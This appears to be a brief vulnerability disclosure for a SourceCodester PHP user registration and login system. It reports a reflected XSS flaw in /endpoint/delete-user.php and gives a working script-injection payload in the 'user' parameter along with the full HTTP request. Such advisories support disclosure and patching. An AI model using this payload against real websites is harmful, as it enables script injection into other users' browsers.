

## User Registration and Login System by rems has xss (Reflected XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html

dbname = registration_login_db


Vulnerability File: /endpoint/delete-user.php


[+] payload: /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt>
```
GET /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt> HTTP/1.1
Referer: http://192.168.6.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

```

